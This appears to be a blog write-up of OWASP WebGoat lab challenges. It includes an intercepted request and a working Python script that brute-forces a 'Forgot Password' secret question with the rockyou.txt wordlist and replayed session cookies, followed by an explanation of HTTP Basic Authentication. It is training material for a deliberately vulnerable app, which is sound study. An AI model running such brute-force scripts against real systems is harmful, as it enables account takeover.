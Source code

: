 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 4"
date:   2017-01-24 19:00:00 -0500
categories: webgoat
---
```

# Authentication Flaws: Forgot Password
Instructions:
* Users can retrieve their password if they can answer the secret question properly. There is no lock-out mechanism on this 'Forgot Password' page. Your username is 'webgoat' and your favorite color is 'red'. The goal is to retrieve the password of another user. 

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/landing-page.jpg">

So we have two hints that are going to help us solve this challenge. The first is on the login page, and says "See the OWASP admin if you do not have an account". The second hint for this challenge is in the phrase "no lock-out mechanism". Sounds like we're going to need to brute-force the admin's favorite color!

So first we navigate to the admin's Forgot Password page, and intercept a test request

```
POST /WebGoat/attack?Screen=64&menu=500 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=64&menu=500
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

Color=blue&SUBMIT=Submit
```

Now that we have a template request for our brute-forcer, it's time to break out everyone's favorite scripting language (or at least mine), Python, and write ourselves a handy-dandy brute-force script.

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"long_long_path_to_dir/rockyou.txt",
]


def main():
	wordlist = []
	print "[+] Populating the wordlist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			wordlist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(wordlist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="C1702A9FE913D04E2F177203213F9149",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,word in enumerate(wordlist):
		print ("[*] Attempt {} | Pass: {}".format(index, word))
		payload= {"Color":word,"SUBMIT":"Submit"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=64&menu=500", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "congratulations" in r.text.lower():
				print ("[+] SUCCESS! Password is: {}".format(word))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()

{% endhighlight %}

So instead of opting for a truly naive brute-force approach, I decided to go with a wordlist. Specifically the "rockyou.txt" list. It has an enormous list of some of the most common passwords in it, which include colors. The way this script works is by parsing each guess from the .txt wordlist file and passing it to a properly formatted request to the Forgot Password request URL. The script maintains headers and cookies to (semi) convincingly spoof the browser. The script then checks the lowercase-cast response for the string "congratulations", which has been in every challenge so far as a flag for correct guess. 

Let's see if it works!

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/rocked-you.jpg">

rocked.txt

# Basic Authentication
This lesson is broken on v5.4 (or at least my implementation of it), but it covers the Basic Authentication protocol. Basic Authentication is a simple method for enforcing access controls on server resources. The basic logical flow is as follows:

1. User requests a resource from the server
* I would like this page
2. Server responds with HTTP 401 Unauthorized
* I don't know who you are, or if you can have that
3. User sends request with Authorization header
* Authorization: Basic ```base64(user:passwd)```
4. Server sends response according to authorization status

It is important to remember that in HTTP everything is transmitted in cleartext, so this does not prevent anyone from stealing login credentials. HTTPS should be used in production systems.